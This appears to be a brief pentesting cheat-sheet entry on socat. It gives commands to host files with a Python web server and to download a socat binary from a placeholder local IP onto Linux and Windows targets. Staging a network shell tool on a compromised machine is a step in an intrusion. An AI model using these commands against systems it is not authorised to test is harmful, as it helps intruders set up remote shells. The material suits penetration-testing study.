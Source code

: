 # Socat
# Transferring static binary
```
sudo python3 -m http.server 80

wget <LOCAL-IP>/socat -O /tmp/socat
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
